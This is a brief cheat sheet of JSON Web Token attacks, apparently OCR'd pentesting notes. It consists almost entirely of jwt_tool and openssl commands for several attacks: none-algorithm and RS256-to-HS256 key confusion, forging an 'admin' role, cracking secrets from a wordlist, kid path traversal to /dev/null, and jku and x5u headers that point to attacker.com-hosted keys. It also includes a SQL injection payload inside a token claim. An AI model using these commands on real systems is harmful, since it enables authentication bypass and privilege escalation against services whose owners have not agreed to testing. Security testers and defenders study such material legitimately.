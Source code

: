     **Wordlist generator crack tokens:**
    
    #https://github.com/dariusztytko/token-reverser
    
    **RS256 to HS256**
    
    `openssl s_client -connect [www.google.com:443](http://www.google.com:443/) | openssl x509 -pubkey -noout > public.pem
    cat public.pem | xxd -p | tr -d "\\n" > hex.txt`
    
    **Sign JWT with hex.txt**
    
    **Generate JWT from terminal**
    
    `pip install pyjwt`
    `python3 -c 'import jwt;print(jwt.encode({"role": "admin"},"SECRET",algorithm="HS256").decode("UTF-8"))'`
    
    **Header Attacks**
    
    #None algorithm
    
    `python3 jwt_tool.py <JWT> -X a`
    
    #From RS256 to HS256
    
    `python3 jwt_tool.py <JWT> -S hs256 -k public.pem`
    
    #Not checked signature
    
    `python3 jwt_tool.py <JWT> -I -pc name -pv admin`
    
    #Crack secret key
    
    `python3 jwt_tool.py <JWT> -C -d secrets.txt`
    
    #Null kid
    
    `python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""`
    
    #Use source file as kid to verify signature
    
    `python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"`
    
    #jku manipulation for open redirect
    
    `python3 jwt_tool.py <JWT> -X s -ju "https://attacker.com/jwttool_custom_jwks.json"`
    
    #x5u manipulation for open redirect
    
    `openssl req -newkey rsa:2048 -nodes -keyout private.pem -x509 -days 365 -out attacker.crt -subj "/C=AU/L=Brisbane/O=CompanyName/CN=pentester"
    python3 jwt_tool.py <JWT> -S rs256 -pr private.pem -I -hc x5u -hv "https://attacker.com/custom_x5u.json"`
    
    **Payload Attacks**
    
    #SQLi
    
    `python3 jwt_tool.py <JWT> -I -pc name -pv "imparable' ORDER BY 1--" -S hs256 -k public.pem`
    
    #Manipulate other values to change expiration time or userID for example
    
    </aside>
    